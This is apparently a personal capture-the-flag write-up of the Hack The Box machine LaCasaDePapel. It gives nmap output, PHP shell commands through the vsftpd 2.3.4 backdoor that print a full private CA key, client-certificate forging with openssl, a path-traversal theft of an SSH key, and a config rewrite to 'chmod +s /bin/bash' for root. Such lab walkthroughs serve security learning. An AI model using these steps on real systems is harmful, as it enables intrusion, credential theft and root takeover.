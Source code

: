 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: LaCasaDePapel
- Description: LaCasaDePapel is an easy difficulty Linux box, which is running a backdoored vsftpd server. The backdoored port is running a PHP shell with disabled_functions. This is used to read a CA certificate, from which a client certificate can be created. The HTTPS page is vulnerable to LFI, leading to exposure of SSH keys. A configuration file can be hijacked to gain code execution as root.
- Difficulty: Easy

## Initial Access

Nmap:
```bash
PORT     STATE    SERVICE  VERSION
21/tcp   open     ftp      vsftpd 2.3.4
22/tcp   open     ssh      OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:e1:c2:c9:79:1c:a6:6b:51:34:8d:7a:c3:c7:c8:50 (RSA)
|   256 41:e4:95:a3:39:0b:25:f9:da:de:be:6a:dc:59:48:6d (ECDSA)
|_  256 30:0b:c6:66:2b:8f:5e:4f:26:28:75:0e:f5:b1:71:e4 (ED25519)
80/tcp   open     http     Node.js (Express middleware)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 621D76BDE56526A10B529BF2BC0776CA
|_http-title: La Casa De Papel
443/tcp  open     ssl/http Node.js Express framework
|_http-title: La Casa De Papel
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
| ssl-cert: Subject: commonName=lacasadepapel.htb/organizationName=La Casa De Papel
| Issuer: commonName=lacasadepapel.htb/organizationName=La Casa De Papel
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-01-27T08:35:30
| Not valid after:  2029-01-24T08:35:30
| MD5:   6ea4:933a:a347:ce50:8c40:5f9b:1ea8:8e9a
|_SHA-1: 8c47:7f3e:53d8:e76b:4cdf:ecca:adb6:0551:b1b6:38d4
|_http-favicon: Unknown favicon MD5: 621D76BDE56526A10B529BF2BC0776CA
| tls-nextprotoneg: 
|   http/1.1
|_  http/1.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

I start with the vulnerable ftp server, this is running vsftpd 2.3.4 which has a backdoor that spawns a shell on port 6200:

![](assets/images/2024-01-22-HTB-LaCasaDePapel-writeup-image-1.png)

However there is a spin to it, it has a php shell here

Based off of the https site, I need a client cert, so I will look for a ca.key here:

```bash
HTB nc 10.10.10.131 6200
Psy Shell v0.9.9 (PHP 7.2.10 — cli) by Justin Hilemanw
whoami
PHP Warning:  Use of undefined constant whoami - assumed 'whoami' (this will throw an Error in a future version of PHP) in phar://eval()'d code on line 1
scandir('/home');
=> [
     ".",
     "..",
     "berlin",
     "dali",
     "nairobi",
     "oslo",
     "professor",
   ]
scandir("/home/nairobi");
=> [
     ".",
     "..",
     "ca.key",
     "download.jade",
     "error.jade",
     "index.jade",
     "node_modules",
     "server.js",
     "static",
   ]
readfile("/home/nairobi/ca.key");
-----BEGIN PRIVATE KEY-----
MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDPczpU3s4Pmwdb
7MJsi//m8mm5rEkXcDmratVAk2pTWwWxudo/FFsWAC1zyFV4w2KLacIU7w8Yaz0/
2m+jLx7wNH2SwFBjJeo5lnz+ux3HB+NhWC/5rdRsk07h71J3dvwYv7hcjPNKLcRl
uXt2Ww6GXj4oHhwziE2ETkHgrxQp7jB8pL96SDIJFNEQ1Wqp3eLNnPPbfbLLMW8M
YQ4UlXOaGUdXKmqx9L2spRURI8dzNoRCV3eS6lWu3+YGrC4p732yW5DM5Go7XEyp
s2BvnlkPrq9AFKQ3Y/AF6JE8FE1d+daVrcaRpu6Sm73FH2j6Xu63Xc9d1D989+Us
PCe7nAxnAgMBAAECggEAagfyQ5jR58YMX97GjSaNeKRkh4NYpIM25renIed3C/3V
Dj75Hw6vc7JJiQlXLm9nOeynR33c0FVXrABg2R5niMy7djuXmuWxLxgM8UIAeU89
1+50LwC7N3efdPmWw/rr5VZwy9U7MKnt3TSNtzPZW7JlwKmLLoe3Xy2EnGvAOaFZ
/CAhn5+pxKVw5c2e1Syj9K23/BW6l3rQHBixq9Ir4/QCoDGEbZL17InuVyUQcrb+
q0rLBKoXObe5esfBjQGHOdHnKPlLYyZCREQ8hclLMWlzgDLvA/8pxHMxkOW8k3Mr
uaug9prjnu6nJ3v1ul42NqLgARMMmHejUPry/d4oYQKBgQDzB/gDfr1R5a2phBVd
I0wlpDHVpi+K1JMZkayRVHh+sCg2NAIQgapvdrdxfNOmhP9+k3ue3BhfUweIL9Og
7MrBhZIRJJMT4yx/2lIeiA1+oEwNdYlJKtlGOFE+T1npgCCGD4hpB+nXTu9Xw2bE
G3uK1h6Vm12IyrRMgl/OAAZwEQKBgQDahTByV3DpOwBWC3Vfk6wqZKxLrMBxtDmn
sqBjrd8pbpXRqj6zqIydjwSJaTLeY6Fq9XysI8U9C6U6sAkd+0PG6uhxdW4++mDH
CTbdwePMFbQb7aKiDFGTZ+xuL0qvHuFx3o0pH8jT91C75E30FRjGquxv+75hMi6Y
sm7+mvMs9wKBgQCLJ3Pt5GLYgs818cgdxTkzkFlsgLRWJLN5f3y01g4MVCciKhNI
ikYhfnM5CwVRInP8cMvmwRU/d5Ynd2MQkKTju+xP3oZMa9Yt+r7sdnBrobMKPdN2
zo8L8vEp4VuVJGT6/efYY8yUGMFYmiy8exP5AfMPLJ+Y1J/58uiSVldZUQKBgBM/
ukXIOBUDcoMh3UP/ESJm3dqIrCcX9iA0lvZQ4aCXsjDW61EOHtzeNUsZbjay1gxC
9amAOSaoePSTfyoZ8R17oeAktQJtMcs2n5OnObbHjqcLJtFZfnIarHQETHLiqH9M
WGjv+NPbLExwzwEaPqV5dvxiU6HiNsKSrT5WTed/AoGBAJ11zeAXtmZeuQ95eFbM
7b75PUQYxXRrVNluzvwdHmZEnQsKucXJ6uZG9skiqDlslhYmdaOOmQajW3yS4TsR
aRklful5+Z60JV/5t2Wt9gyHYZ6SYMzApUanVXaWCCNVoeq+yvzId0st2DRl83Vc
53udBEzjt3WPqYGkkDknVhjD
-----END PRIVATE KEY-----
=> 1704
```

I was able to find it in nairobi's home dir.

I also read the email that was generated when I entered the info on the http site
this lead me to a page that let me download a ca.crt. with that info i was able to generate a cert and import to my firefox:

```bash
HTB openssl pkcs12 -export -out certificate.pfx -inkey ca.key -in ca.crt -certfile ca.crt
Enter Export Password:
Verifying - Enter Export Password:
```

Import it on firefox:

![](assets/images/2024-01-22-HTB-LaCasaDePapel-writeup-image-2.png)

Now when I load in:

![](assets/images/2024-01-22-HTB-LaCasaDePapel-writeup-image-3.png)

I can click on a season:

![](assets/images/2024-01-22-HTB-LaCasaDePapel-writeup-image-4.png)

I can see the path GET param:

Hovering over the avi files I can see that it is a path:

![](assets/images/2024-01-22-HTB-LaCasaDePapel-writeup-image-5.png)

I encode `../.ssh/id_rsa` and get the ssh key and ssh in as the professor user:
## Privilege Escalation

```bash
lacasadepapel [~]$ cat memcached.ini
[program:memcached]
command = sudo -u nobody /usr/bin/node /home/professor/memcached.js
```

I can see that the memcached file is running as sudo, I can't change it but I can delete it and  rewrite a new one:
```bash
lacasadepapel [~]$ rm memcached.ini
rm: remove 'memcached.ini'? y
lacasadepapel [~]$ ls
memcached.js  node_modules
```

I will then replace it with a new command:

```bash
[program:memcached]
command = sudo chmod +s /bin/bash
```

after a few minutes I get root!

best,
gerbsec